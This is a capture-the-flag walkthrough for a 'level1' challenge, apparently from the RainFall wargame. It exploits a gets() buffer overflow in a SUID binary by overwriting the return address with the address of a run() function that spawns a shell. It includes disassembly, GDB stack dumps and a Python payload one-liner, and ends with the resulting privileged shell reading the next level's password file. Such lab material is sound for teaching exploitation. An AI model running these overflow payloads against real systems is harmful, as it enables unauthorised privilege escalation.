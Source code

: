 # Level1
Level1 introduce buffer overflow attacks

# Tools
GDB

# Walkthrough
The home of `level1` contains a SUID bit binary file, owned by `level2`:
```
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

Upon checking the `level1` binary with GDB and disassembling main, we see the code in the `main.asm` file. 

This code calls a really dangerous function, `gets`. `gets` doesn't perform any checks before writing to its buffer, thus someone that would write a long string inside of `gets` would pretty easily buffer overflow the stack, and could leverage that to execute arbitrary code.

Let's dissect the assembly code a little more to better understand the program:
```x86
   0x08048480 <+0>:	push   ebp ; First two lines are the prologue, prepare the
   0x08048481 <+1>:	mov    ebp,esp ; stack frame for the main function to be executed
   0x08048483 <+3>:	and    esp,0xfffffff0 ; 
   0x08048486 <+6>:	sub    esp,0x50 ; Allows 80 bytes for the buffer
   0x08048489 <+9>:	lea    eax,[esp+0x10] ; Prepare the stack to receive data
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax ; Prepare the stack to receive data
   0x08048490 <+16>:	call   0x8048340 <gets@plt> ; Calls gets()
   0x08048495 <+21>:	leave ; Setup to return control to the caller
   0x08048496 <+22>:	ret ; Setup to return control to the caller
```

Okay, apart from the `gets` call there is nothing too fancy, but maybe the program calls other functions?
Using [dogbolt](https://dogbolt.org/), we can reverse engineer the binary.
We see that the program also contains a function `run()`:
```c
int run()
{
  fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
  return system("/bin/sh");
}
```
As we can see, the `run()` commands prints a message and spawns a shell, with the privileges of level2 (file owner and SUID bit).

Using GDB, we can get the address of that function:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
`run` is located at the address **0x08048444**. We want to setup our program so that when `gets()` returns and pops the return address of the caller, instead of getting the `leave` instruction from the `main`, it calls the `run` function.

To do that, we will make use of the stack buffer overflow. We know that the program allocates 80 bytes for the buffer of `gets()`.

We break on `main` and `gets`, and show the content of the stack:
```
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) break gets
Breakpoint 2 at 0x8048340
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0xb7e91e40 in gets () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/20x $esp
0xbffff6ac:	0x08048495	0xbffff6c0	0x0000002f	0xbffff70c
0xbffff6bc:	0xb7fd0ff4	0x080484a0	0x0804978c	0x00000001
0xbffff6cc:	0x08048321	0xb7fd13e4	0x00000016	0x0804978c
0xbffff6dc:	0x080484c1	0xffffffff	0xb7e5edc6	0xb7fd0ff4
0xbffff6ec:	0xb7e5ee55	0xb7fed280	0x00000000	0x080484a9
``` 
The first double word of data is the address of the return value of the main function. Thus, we know that, just before filling out the buffer, we need to write out the address of the `run` function to call it.

We write 76 A and then the address of the `run` function in reverse order because of the little endian of the system. 
```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; ./level1 < attack.txt; rm -rf attack.txt
```

That segfaults, because Bash still reads on STDIN which is closed. Thus, we need to maintain STDIN opened after we inputed our payload:

```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
```

```bash
level1@RainFall:~$ python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


# Sources
[Tutorial on GDB and Stack Buffer Overflow](https://eric-lo.gitbook.io/stack-smashing-attack/asm)
